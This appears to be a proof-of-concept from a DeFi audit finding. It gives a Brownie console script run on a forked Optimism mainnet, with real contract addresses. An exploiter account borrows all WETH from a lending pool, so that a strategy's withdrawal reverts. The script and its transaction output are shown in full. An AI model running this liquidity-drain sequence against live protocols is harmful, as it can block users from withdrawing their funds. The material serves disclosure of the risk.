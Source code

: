 We can then fork optimism mainnet

```bash
brownie console --network optimism-main-fork
```

Run the following commands to show the attack

```python
## Setup addresses
lp = LendingPool.at("0x8FD4aF47E4E63d1D2D45582c3286b4BD9Bb95DfE")
a_token = interface.ERC20("0xfF94cc8E2c4B17e3CC65d7B83c7e8c643030D936")
weth = interface.ERC20("0x4200000000000000000000000000000000000006")
usdc = interface.ERC20("0x7F5c764cBc14f9669B88837ca1490cCa17c31607")

## Setup Actors
weth_whale = accounts.at("0xe50fa9b3c56ffb159cb0fca61f5c9d750e8128c8", force=True)
usdc_whale = accounts.at("0x625e7708f30ca75bfd92586e17077590c60eb4cd", force=True)

strategy = a[0]
exploiter = a[1]

## Fund Strategy with WETH
weth.transfer(strategy, 20e18, {"from": weth_whale})

## Strategy Deposits WETH
weth.approve(lp, 20e18, {"from": strategy})
lp.deposit(weth, 20e18, strategy, 0, {"from": strategy})


## Fund exploiter with USDC, they will borrow WETH
usdc.transfer(exploiter, usdc.balanceOf(usdc_whale), {"from": usdc_whale})

## Setup collateral so we can dry up WETH
usdc.approve(lp, usdc.balanceOf(exploiter), {"from": exploiter})
lp.deposit(usdc, usdc.balanceOf(exploiter), exploiter, 0, {"from": exploiter})

## Borrow Max, so no WETH is borrowable
to_borrow = weth.balanceOf(a_token)
lp.borrow(weth, to_borrow, 2, 0, exploiter, {"from": exploiter})

print(weth.balanceOf(a_token))
0 ## No weth left, next withdrawal will revert

## Strategy will not be able withdraw
to_withdraw = a_token.balanceOf(strategy)
assert to_withdraw > 0

## REVERTS HERE
lp.withdraw(weth, to_withdraw, strategy, {"from": strategy})

>>> Transaction sent: 0x2d129abc6f69d74db7567de54d9932ac406d2212c350ff7f16e66d3fb034e036
  Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 3
  LendingPool.withdraw confirmed (SafeMath: subtraction overflow)   Block: 79015780   Gas used: 138952 (0.69%)

```
